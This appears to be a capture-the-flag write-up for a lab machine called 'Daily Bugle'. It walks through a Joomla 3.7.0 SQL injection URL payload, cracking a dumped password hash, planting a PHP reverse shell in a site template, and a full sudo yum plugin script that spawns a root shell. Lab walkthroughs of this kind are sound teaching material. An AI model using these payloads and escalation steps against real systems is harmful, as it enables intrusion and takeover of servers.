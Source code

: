 **Daily Bugle***

***IP=10.10.206.138***

***Difficulty = Hard**

After scanning the IP with rustscan, I found 3 open ports:

22, 80, 3306

***Web Enumeration***

Opening the URL in browser, I found that it was using Joomla CMS also described in the room's description.
I scanned the URL with gobuster and nikto and no juicy directories were there.
In the homepage, we can find a blog about a robbery with text as:

```
The criminal we call "Spider-Man" is back at it, clearly as seen in the image, Spider-Man is nothing more than a criminal, and I have proof, Sure he saves people all the time for free with nothing in return, but a media company like this always has to exist.
```

So the answer to the first question would be SpiderMan.

For joomla enumeration, I used joomscan from OWASP. 
From there, I found out the version of Joomla CMS being used. 

Version: 3.7.0

Now I searched for any exploit for this version on searchsploit.
I found an SQLi exploit.

```
Joomla! 3.7.0 - 'com_fields' SQL Injection
```
Searchsploit had a text file telling about how we can exploit the vulnerability.

```
URL Vulnerable: http://10.10.206.138/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27
```

I found out a great exploit for this vulnerability: joomblah
On running this exploit with the URL, I got the table Users with its contents.

```
Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
```
I used john the ripper to crack the password.

Save the hash in a file, say hash.
Now run john hash --wordlist=<Path-to-rockyou>

It took me around 10-12 minutes to crack the password.
If you want to crack fast use:

```
sed -n '45000,50000p' <Path-to-rockyou> > pass.txt
```

It will store contents of rockyou from 45000-50000 in pass.txt.
And now use john with this wordlist.
We got the password for jonah as spiderman123.

It is also the Super user for the website.

Now login with these creds in the administrator directory of joomla.
To get a reverse shell, I went to templates and edited the index.php with a php reverse shell script.

Start a netcat listener on a terminal and click on preview template.
I got a reverse shell as apache user.

***User.txt***

To escalate privelleges from apache user to jjameson, I found out jjameson's password in /var/www/html/configuration.php page.
Now ssh into machine with jjameson creds.

User.txt is present in jjameson's home directory.

***Root.txt***

When I ran sudo -l, to see what files jjameson can run as root, i found that i can run yum as root.
A quick search on gtfobins, gave me an idea of how I can escalate my privelleges to root.

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
These commands will give root shell.

Now go to /root and get root.txt

